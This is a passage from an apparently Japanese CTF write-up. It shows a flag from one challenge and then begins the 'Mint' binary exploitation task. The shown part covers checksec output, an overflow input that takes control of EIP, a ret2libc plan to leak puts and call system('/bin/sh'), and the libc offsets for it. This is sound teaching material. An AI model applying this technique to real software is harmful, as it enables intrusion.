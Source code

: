 ```python
  s.close()
```

```
xiomara{anD_!_th0ught_f@k3_pr!nC3553s_@nn0y3d_m@R!0}
```

## [Pwning 200] Mint

どんなバイナリか調べてみます。

```
$ file ./mint
mint: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b2d0f4bf730ad56e1ba3bc65815039a2ee02a009, stripped
$ checksec --file ./mint
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

```
$ ./mint
^^^^^^^^^^^^^^ Welcome to My Mini Text editor (Mint)  ^^^^^^^^^^^^^^^^^^^^^^^^
[1] Add text
[2] Edit text
[3] Display text
[4] Exit
Enter ur option :1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Enter ur option :2
[1] Append text
[2] Overwrite
1
AAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Enter ur option :4
Segmentation fault
```

これで EIP が 0x42424242 になりました。

puts で GOT にある puts のアドレスをリークして libc のベースアドレスを計算 -> もう一度 main を呼んで -> 今度は `system("/bin/sh")` という感じでいきましょう。

まずは関数と `/bin/sh` のオフセットを調べましょう。

```
$ strings -a -tx ./libc-2.23.so | grep "/bin/sh"
 15b82b /bin/sh
$ gdb ./libc-2.23.so
Reading symbols from ./libc-2.23.so...(no debugging symbols found)...done.
gdb-peda$ p/x &system
$1 = 0x3ada0
gdb-peda$ p/x &puts
$2 = 0x5fca0
gdb-peda$ p/x &gets
$3 = 0x5f3e0
```
